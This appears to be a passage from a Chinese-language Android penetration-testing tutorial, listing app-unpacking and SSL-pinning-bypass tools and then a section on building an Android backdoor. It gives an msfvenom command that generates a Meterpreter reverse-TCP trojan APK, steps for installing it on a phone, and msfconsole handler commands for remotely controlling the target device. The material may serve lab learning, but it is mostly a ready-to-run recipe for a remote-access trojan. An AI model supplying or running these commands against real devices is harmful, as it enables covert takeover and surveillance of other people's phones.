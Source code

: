 ```
MT管理器--通过vmos的常用工具中安装即可。
BlackDEX64、BlackDEX32 --开源的脱壳工具
justtrustme--xposed模块
```

<img src="../../images//image-20221005222528306.png" alt="image-20221005222528306" style="zoom:67%;" />

 

## 五、安卓后门

通过如下格式语句可在kali中生成安卓的后门：

```
msfvenom -p android/meterpreter/reverse_tcp LHOST=IP LPORT=4444 R > shell.apk
```

随后将生成的APK木马拷贝至手机中，而后通过vmos的文件交换功能，进行安装。

在kali中执行如下的指令后，启动安卓的木马后，即可远程控制目标手机。

```
msfconsole
use exploit/multi/handler 
set payload android/meterpreter/reverse_tcp
set lhost kaliIP
exploit
```
